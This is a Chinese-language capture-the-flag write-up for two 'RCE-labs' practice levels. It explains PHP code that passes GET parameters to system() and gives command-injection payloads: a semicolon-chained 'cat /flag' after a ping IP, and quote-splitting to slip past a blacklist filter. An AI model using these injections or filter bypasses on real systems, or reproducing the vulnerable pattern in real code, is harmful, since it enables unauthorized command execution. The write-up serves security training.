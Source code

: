 <font style="color:#000000;">分析代码：</font>

<font style="color:#000000;">首先定义了一个函数 hello_server，其中形参是$ip，执行system函数，函数的内容是ping -c 1 ，指的是向目标 IP 发送 一个ICMP 请求，并等待其响应 。函数结束</font>

<font style="color:#000000;">之后判断GET传参的ip是否为随机值，如果不是随机值的话执行函数hello_server，如果是随机值的话，则不再执行其他操作。</font>

<font style="color:#000000;">所以需要传入127.0.0.1来指向自己并且在后面加入输出flag的命令，即</font>

```plain
?ip=127.0.0.1;cat /flag;
```

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737125338492-6594f63e-9609-4a4c-91c6-b7a64009284b.png)

## <font style="color:#000000;">（六）</font><font style="color:#000000;">[RCE-labs]Level 5 - 黑名单式过滤</font>
<font style="color:#000000;">打开靶场发现以下内容</font>

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737126533765-55c4411a-3c39-49de-a502-f98fa4afef3e.png)

```php
<?php
function hello_shell($cmd){
  if(preg_match("/flag/", $cmd)){
    die("WAF!");
  }
  system($cmd);
}

isset($_GET['cmd']) ? hello_shell($_GET['cmd']) : null;

highlight_file(__FILE__);


?>
```

<font style="color:#000000;">preg_match()函数是匹配函数，</font><font style="color:#000000;">如果找到一个匹配</font><font style="color:#000000;">，则返回值为1，否则为0</font>

<font style="color:#000000;">这段PHP代码先是定义了一个hello_shell函数，形参是cmd。</font>

<font style="color:#000000;">之后判断cmd变量与flag是否匹配，如果，则输出WAF!，否则执行system函数。函数结束</font>

<font style="color:#000000;">然后判断GET传参的cmd是否为随机值，如果是，则执行hello_shell函数，否则什么也不执行</font>

<font style="color:#000000;"></font>

<font style="color:#000000;">所以要把cat /flag修饰以下，而又</font><font style="color:#000000;">用$*绕过，即fl$*ag、用'绕过，即f''lag或f'l'ag绕过，这都可以，</font><font style="color:#000000;">因此构造playload，得到flag</font>

```php
?cmd=cat /fl''ag
```
